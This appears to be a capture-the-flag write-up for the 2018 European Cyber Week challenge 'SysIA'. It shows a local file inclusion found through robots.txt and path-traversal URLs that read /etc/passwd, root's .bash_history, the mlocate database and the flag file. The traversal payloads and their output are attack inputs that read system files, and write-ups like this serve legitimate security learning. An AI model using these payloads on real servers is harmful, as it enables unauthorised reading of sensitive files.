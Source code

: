 # [European Cyber Week] - SysIA


## State of the art

A nice cyber-hacker-haxxor-website-of-death containing a magical `robots.txt` file:

```
User-agent: *
Disallow: /notinterestingfile.php
```

## Local file include


![](/lib/images/writeups/2018_ecw/sysia/sysia_1.png)


Let's try something:

> https://web075-sysia.challenge-ecw.fr/notinterestingfile.php?page=../../../../../../../etc/passwd

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false _apt:x:104:65534::/nonexistent:/bin/false
```

Ok, it works, there is only one user with a /bin/bash. I can't display any other web page via LFI, I think I'll try to display the `.bash_history`:

> https://web075-sysia.challenge-ecw.fr/notinterestingfile.php?page=../../../../../../../root/.bash_history

It worked (I will just put a snippet below because it's veeeeery long):

```
docker exec -it CTFd_NDH_2018 /bin/sh
ll
mkdir ndh
cd ndh/
locate flag.txt
updatedb
locate flag.txt
ll
nano Dockerfile
nano proxy.py
docker build . -n CTFd_ndh
```

## Flag location

Ok, he did an `updatedb`, so the location of `flag.txt` is stored in this database. The default path is: `/var/lib/mlocate/mlocate.db`

> https://web075-sysia.challenge-ecw.fr/notinterestingfile.php?page=../../../../../../../var/lib/mlocate/mlocate.db


![](/lib/images/writeups/2018_ecw/sysia/sysia_2.png)


## Flag

> https://web075-sysia.challenge-ecw.fr/notinterestingfile.php?page=../../../../../../../var/www/ECW/solution/web/lfi/flag.txt


![](/lib/images/writeups/2018_ecw/sysia/sysia_3.png)

